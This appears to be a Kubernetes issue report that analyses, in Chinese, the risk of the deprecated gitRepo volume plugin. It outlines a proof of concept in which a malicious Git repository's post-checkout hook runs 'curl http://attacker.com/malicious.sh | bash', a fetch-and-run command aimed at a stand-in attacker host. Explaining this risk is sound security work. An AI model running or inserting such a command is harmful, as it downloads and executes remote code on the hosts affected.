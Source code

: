 #### Kubernetes version

1.30

#### Cloud provider

N/A

#### OS version

<details></details>


#### Install tools

<details></details>


#### Container runtime (CRI) and version (if applicable)

<details></details>


#### Related plugins (CNI, CSI, ...) and versions (if applicable)

<details></details>


### 分析结果

高风险

**原因：**

`gitrepo`卷插件早已被弃用，但其代码仍然存在于代码库中且未得到维护，可能包含安全漏洞。由于该插件需要从指定的Git仓库拉取代码，攻击者可以利用该功能注入恶意代码或执行任意命令。这可能导致命令执行、容器逃逸、权限提升等高风险安全问题。

**可能的影响：**

1. **任意命令执行**：攻击者可利用恶意Git仓库，在拉取代码时触发恶意脚本的执行。

2. **容器逃逸**：通过在宿主机上执行代码，攻击者可能突破容器隔离，访问到宿主机的资源。

3. **权限提升**：攻击者可能以更高的权限运行命令，进而危害整个集群的安全。

**Proof of Concept：**

攻击者可以创建一个包含恶意Git钩子（hooks）的Git仓库。当`gitrepo`插件拉取该仓库时，钩子脚本会被触发，执行攻击者设计的命令。

**步骤：**

1. **创建恶意Git仓库：**

   攻击者在自己的服务器上建立一个Git仓库，在`.git/hooks/`目录下添加恶意脚本，例如`post-checkout`：

   ```bash
   #!/bin/bash
   # 恶意命令，例如反向Shell或者下载并执行恶意程序
   curl http://attacker.com/malicious.sh | bash
   ```
